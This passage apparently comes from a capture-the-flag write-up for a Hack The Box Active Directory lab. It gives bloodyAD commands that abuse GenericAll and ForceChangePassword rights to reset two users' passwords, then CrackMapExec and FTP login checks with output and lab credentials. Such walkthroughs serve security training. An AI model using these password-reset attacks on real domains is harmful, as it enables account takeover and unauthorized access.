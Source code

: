 Leveraging olivia's `GenericAll` on michael to change michael's password
```bash
bloodyAD \
  -u "olivia" \
  -p "ichliebedich" \
  -d "administrator.htb" \
  --host "10.10.11.42" \
  --dns "10.10.11.42" \
  -v DEBUG \
  set password "michael" 'fluffydog17!'
```
```bash
cme ldap 10.10.11.42 -u 'michael' -p 'fluffydog17!'
```

Leveraging michael's `ForceChangePassword` on benjamin to change benjamin's password
```bash
bloodyAD \
  -u "michael" \
  -p 'fluffydog17!' \
  -d "administrator.htb" \
  --host "10.10.11.42" \
  --dns "10.10.11.42" \
  -v DEBUG \
  set password "benjamin" 'fluffydog17!'
```
```bash
cme ldap 10.10.11.42 -u 'benjamin' -p 'fluffydog17!'
```

# FTP Enum

Olivia
```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): olivia
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed.
Remote system type is Windows_NT.
ftp>
221 Goodbye.
```

Michael
```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): michael
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed.
Remote system type is Windows_NT.
ftp>
221 Goodbye.
```
